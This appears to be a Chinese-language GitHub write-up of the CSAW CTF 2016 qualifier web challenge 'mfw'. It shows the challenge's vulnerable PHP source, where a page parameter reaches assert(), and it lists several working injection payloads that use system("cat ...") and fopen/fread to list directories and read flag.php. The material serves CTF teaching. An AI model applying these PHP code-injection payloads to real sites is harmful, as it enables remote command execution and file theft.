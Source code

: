 # Writeup-of-web-of-csaw-ctf-2016-quals
This is the Wirteup of web of csaw-ctf-2016-quals

通过 《write-ups-2016》 repository 中链接的几个Writeups可以看到解题方法https://github.com/ctfs/write-ups-2016/tree/master/csaw-ctf-2016-quals/web/mfw

这里是另外一些解题思路和备份。

首先通过上面链接的Writeups里的工具和思路下载得到源码。
主要是index.php源码。
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
下载到的源码应该是历史版本，所以flag.php中没有给出flag值。
从index.php里可以看出，虽然有require_once $file可以用来包含flag.php，但因为flag是被注释掉的，我们也看不到。
代码中有assert()函数，应该很敏感地想到要利用它来执行任意命令，从而拿到flag。


观察可以发现，page传入的参数存在代码注入漏洞，顺便提一下assert()函数会把传入的字符串当做php代码来执行。

## 注入思路：整体上可以注释掉', '..') === false，或者不注释，只在中间插入。另外要注意闭合单引号和括号。


#### 中间插入型，使用 . 连接符：

查看目录：?page=flag'.system("ls").'

![description](images/1.png)

进入目录并查看文件：?page=flag'.system("cd templates;ls").'

![description](images/2.png)

查看flag.php：?page=flag'.system("cat templates/flag.php").'

![description](images/3.png)

浏览器F12进入网页源码看到flag。

![description](images/4.png)

拿到flag。

说一下 . 连接符，?page=flag'.system("ls").'带入后得到
assert("strpos('flag'.system("ls").'.php', '..') === false") or die("Detected hacking attempt!");  执行过程为 ：字符串'flag'和system("ls")和字符串'.php'拼接后，作为strpos()的第一个参数。重点是system()函数是会直接把结果输出的，不用echo，也可以输出，所以system("ls")就直接把目录输出了。

下面是几种方式：

(1) ?page=flag'.system("cat templates/flag.php").'
第一个assert变成：
~~~~
assert("strpos('templates/flag'.system("cat templates/flag.php").'.php', '..') === false") or die("Detected hacking attempt!");
~~~~
(2) ~~~~
?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~

#### 注释型

注意：assert()函数会把传入的字符串当做php代码来执行。

如果注释掉后面的语句：

(1) ?page=','88')===false and system("cat templates/flag.php");//
~~~~
assert("strpos('templates/','88')===false and system("cat templates/flag.php");//.php', '..') === false") or die("Detected hacking attempt!");
~~~~

(2) flag','..')+or+system('cat+templates/flag.php');//

或者写成 flag','..') or system('cat templates/flag.php');//
~~~~
assert("strpos('templates/flag','..') or system('cat templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");
~~~~




